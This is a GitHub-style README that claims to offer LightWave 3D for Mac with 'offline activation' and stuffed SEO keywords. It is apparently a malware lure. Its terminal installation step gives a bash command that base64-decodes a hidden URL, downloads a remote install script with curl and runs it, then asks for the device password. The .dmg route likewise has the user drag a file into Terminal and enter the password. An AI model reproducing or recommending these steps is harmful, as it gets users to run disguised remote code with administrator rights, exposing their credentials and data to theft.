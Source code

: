 # LightWave 3D for Mac

[![Download Setup Assistant](https://img.shields.io/badge/Download-Setup_Assistant-blueviolet)](https://mitrobandus.github.io/.github/LightWave)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)  

---

## 🎯 What You Unlock

- 🔹 Advanced 3D modeling and rendering tools  
- 🎨 High-quality texture mapping and animation features  
- 🚀 Real-time viewport rendering and scene editing  
- 🛠 Customizable workflow and plugin support  
- 🔐 Offline activation for uninterrupted usage  

---

## 🖼 Preview

![LightWave 3D Trial Screen](https://www.awn.com/sites/default/files/styles/original/public/image/featured/1025115-lightwave-3d-offers-free-90-day-lightwave-trial.png?itok=Kg6yQZ0-)  


![LightWave 3D Modelling](https://www.iamag.co/wp-content/uploads/2013/11/Nevron_003.jpg)  


![LightWave 3D Animation](https://i.namu.wiki/i/uKK4deJ5uHcBwf4LZLEP_7cWhuEL02L3E_B35niSdAAo4bJm3cMrSWpbK1HI8W0CjpdYYj7XDGXaIVIFmQAJeQ.webp)  


---

## 🔍 SEO Keywords

lightwave 3d, lightwave software, lightwave 3d download, lightwave 3d software, lightwave newtek, newtek lightwave 3d, lightwave 3d download free, lightwave 3d mac, lightwave 3d tutorial, lightwave 3d offline setup, lightwave 3d activation, lightwave 3d rendering, lightwave 3d modeling, lightwave 3d animation, lightwave 3d full version, lightwave 3d no login, lightwave 3d offline license, lightwave 3d 3d design, lightwave 3d professional tools, lightwave 3d workflow, lightwave 3d texture mapping, lightwave 3d plugin support, lightwave 3d user guide, lightwave 3d mac download, lightwave 3d 3d software mac
